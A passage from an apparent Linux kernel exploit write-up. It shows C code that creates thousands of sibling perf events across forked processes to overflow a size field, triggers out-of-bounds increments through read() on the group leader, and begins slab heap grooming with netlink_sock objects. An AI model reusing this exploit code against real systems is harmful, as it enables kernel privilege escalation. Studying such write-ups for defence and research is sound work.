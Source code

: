 We create the events up to `TFD2` and then set the `count` fields of `TFD1` and `TFD2` using `inc_counters()`:

```
    for (int i = 1; i <= TFD2; i++)
            sib_fds[i] = perf_event_open(&attr, ppid, -1, sib_fds[0], 0);

    inc_counters(sib_fds[TFD1], NUM_INCS1);
    inc_counters(sib_fds[TFD2], NUM_INCS2);
```

Since the events are created with `attr.type = PERF_COUNT_SW_PAGE_FAULTS`, their `count` is incremented every time there is a page fault. `inc_counters()` enables the passed event, does the required number of page faults, then disables the event:

```
void inc_counters (int fd, int inc) {
    ioctl(fd, PERF_EVENT_IOC_ENABLE, 0);
    for (int i = 0; i < inc; i++) {
        char *m = mmap(NULL, 4096, PROT_READ | PROT_WRITE, MAP_ANON | MAP_PRIVATE, -1, 0);
        m[0] = 0; /* Page fault */
    }
    ioctl(fd, PERF_EVENT_IOC_DISABLE, 0);
}
```
After this the rest of the events are created. The target instances have a hard limit of 4096 open file descriptors for each process, so more processes are forked off to create enough events. Three processes create 2048 events each:

```
for (int i = 0; i < 3; i++) {
    pid_t cpid = fork();
    if (cpid)
        continue;
    for (int j = 1; j <= 2048; j++)
        sib_fds[j] = perf_event_open(&attr, ppid, -1, sib_fds[0], 0);
    sleep(-1);
}
```
The parent process can check how many sibling events have been created by calling `read()` on the group leader. This is used to wait for the child processes to finish:
```
while (num_events <= 2048*3 + TFD2) {
    read(sib_fds[0], read_buf, 65536);
    num_events = read_buf[0];
}
```
The final events are then created in the parent process, overflowing `read_size`. Now `read()`ing the group leader will allocate a `values` array and do out-of-bounds increments at the chosen offsets.

## Preparing the Heap

The vulnerable array should be allocated in a slab with one empty slot and all other slots containing a `netlink_sock` object. Since the `kmalloc-2048` cache where `netlink_sock` is allocated has 16 slots per slab, the buffer will have a 15 in 16 chance of being behind a `netlink_sock` within the slab.
